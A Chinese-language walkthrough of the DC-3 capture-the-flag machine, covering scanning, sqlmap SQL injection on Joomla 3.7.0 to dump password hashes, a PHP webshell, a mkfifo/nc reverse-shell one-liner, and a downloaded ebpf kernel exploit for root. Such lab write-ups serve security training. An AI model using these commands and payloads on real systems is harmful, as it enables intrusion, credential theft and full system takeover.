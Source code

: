 # DC - 3

---

# 一、信息收集

---

先使用arp-scan确定靶机的IP地址，使用命令如下

```bash
arp-scan -l
```

​![image](assets/image-20230409193420-48y66il.png)​

通过扫描结果可以得到靶机的IP为192.168.23.139，接下来使用nmap来扫描靶机开启的端口，使用命令如下

```bash
nmap -A -T 192.168.23.139
```

​![image](assets/image-20230409193703-lbm9gq5.png)​

靶机只开启了HTTP服务，使用浏览器访问靶机IP可以得到其指纹信息为joomla，使用dirsearch扫描靶机目录，使用命令如下

```bash
dirsearch -u 192.168.23.139
```

​![image](assets/image-20230409194212-y4i6qq2.png)​

通过扫描结果发现后台为/administrator，不过目前不知道靶机的登陆信息，想直接用msf来进行漏洞利用，但是这个靶机msf中的漏洞模块都不能进行直接的利用，尝试在exploitdb中搜索到了joomla相关的漏洞，使用命令如下

```bash
searchsploit joomla
```

​![image](assets/image-20230409194804-ud3ktce.png)​

得到一大堆payload，有点头大，然后搜索发现kali存在一个专门针对它的漏洞扫描工具Joomscan，使用这个工具对网站进行扫描，使用命令如下

```bash
joomscan --url 192.168.23.139
```

​![image](assets/image-20230409200252-88sf1im.png)​

# 二、漏洞利用

---

确定版本为3.7.0，使用searchsploit再次搜索相关漏洞，结果如下

​![image](assets/image-20230409200652-lpz2ob4.png)​

查看payload的路径，命令如下

```bash
searchsploit -p 42033.txt
```

​![image](assets/image-20230409201012-mgx0lv8.png)​

打开该文件查看payload的使用方法，如下

​![image](assets/image-20230409201357-qdeb59o.png)​

直接使用sqlmap进行漏洞利用，命令如下：

1、爆数据库名

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

​![image](assets/image-20230410192312-dghcpkf.png)​

得到数据库名，我们再次查询一下 joomladb数据库的表名

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

​![image](assets/image-20230410192430-frloyae.png)​

3、查看users表里的各个字段：

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" --columns -p list[fullordering]
```

​![image](assets/image-20230410192713-a8xufgh.png)​

4、获得表中的账号密码  一般为username,password

```bash
sqlmap -u "http://192.168.23.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T "#__users" -C "username,password" --dump -p list[fullordering]
```

​![image](assets/image-20230410192759-g4pd7hi.png)​

这是一个MD5+salt的加密，我们使用john去破解一下，如下

```bash
john demo.txt
```

​![image](assets/image-20230410193059-swlaj8c.png)​

得到密码 snoopy

# 三、反弹shell

---

通过对后台的各种查询，发现Extensions->Templates里面的模板可以执行PHP脚本，我们尝试写入webshell

​![image](assets/image-20230410194253-pshpc2r.png)​

​![image](assets/image-20230410195102-meha9b1.png)​

蚁剑连接成功后反弹shell，使用命令如下

```bash
nc  -lvp 4444
```

```bash
<?php 
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.23.139 4444 >/tmp/f');
?> 

```

​![image](assets/image-20230410200632-nnexbdi.png)​

​![image](assets/image-20230410200619-oknyrwc.png)​

# 四、提权

---

发现系统为Ubuntu16.04，使用searchsploit工具查找Ubuntu 16.04的提权漏洞

```bash
cat /etc/issue
```

```bash
searchsploit Ubuntu 16.04
```

​![image](assets/image-20230410200903-rsyew5h.png)​

查看相关漏洞利用的文件，得到利用poc的下载地址

```bash
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

​![image](assets/image-20230410201103-6msdvw9.png)​

使用wget命令下载

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
```

如果无法下载就用浏览器下载也行，下载完成后使用蚁剑上传

​![image](assets/image-20230410202044-81nu3cx.png)​

```bash
unzip 39772.zip  #解压29772.zip文件
cd 39772
tar -xvf exploit.tar  #解压exploit提权脚本tar包
cd ebpf_mapfd_doubleput_exploit
```

​![image](assets/image-20230410202225-5fpz6pw.png)​

编译代码，编译时会出现warning，可以忽略

​![image](assets/image-20230410202316-p2cwc5q.png)​

执行代码，进行提权，获取root权限

```bash
./doubleput 
```

​![image](assets/image-20230410214920-phgfvjd.png)​

这时就已经是root权限了

​![image](assets/image-20230410214958-i6pu0fc.png)​

​![image](assets/image-20230410215023-r4x4hph.png)​
